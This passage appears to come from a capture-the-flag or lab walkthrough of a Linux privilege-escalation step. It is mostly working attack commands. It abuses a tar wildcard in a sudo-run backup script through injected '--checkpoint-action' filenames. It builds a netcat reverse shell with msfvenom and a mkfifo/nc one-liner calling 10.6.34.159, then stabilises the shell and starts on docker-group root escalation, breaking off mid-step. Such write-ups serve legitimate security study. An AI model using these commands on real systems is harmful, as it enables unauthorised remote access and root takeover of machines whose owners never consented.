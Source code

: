 - **Vulnerability**: The `*` wildcard in `tar cf /opt/backups/backup.tar *` is dangerous. If we control the files in the directory where the script runs, we can inject malicious filenames to execute code.

Let's do the following:

```
# Let's begin by generating a netcat reverse shell using msfvenom
msfvenom -p cmd/unix/reverse_netcat lhost=IP lport=PORT R

# We can then proceed to exploit the wildcard

mkdir /tmp/exploit
cd /tmp/exploit
touch -- '--checkpoint=1'
touch -- "--checkpoint-action=exec=sh shell.sh"
echo '#!/bin/bash' > shell.sh
echo "mkfifo /tmp/gaipsa; nc 10.6.34.159 9001 0</tmp/gaipsa | /bin/sh >/tmp/gaipsa 2>&1; rm /tmp/gaipsa" >> shell.sh # Replace this with the contents that the msfvenom gave you.

# Set up the listener
nc -lvnp PORT

# Give permissions to both backup.tar and shell.sh
chmod 777 /opt/backups/backup.tar shell.sh

# Use the command
sudo -u michael /opt/backups/backup.sh
```

If we reproduce these steps, we can notice this in our listener:

![](Pasted%20image%2020250331170833.png)

We can stabilize our shell first:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](Pasted%20image%2020250331170920.png)

The `docker` group membership (GID 999) grants **root-equivalent privileges** on the host system. We can exploit this to escalate into root, let's search gtfobins:

![](Pasted%20image%2020250331172216.png)

So, based on that, we can do the following:
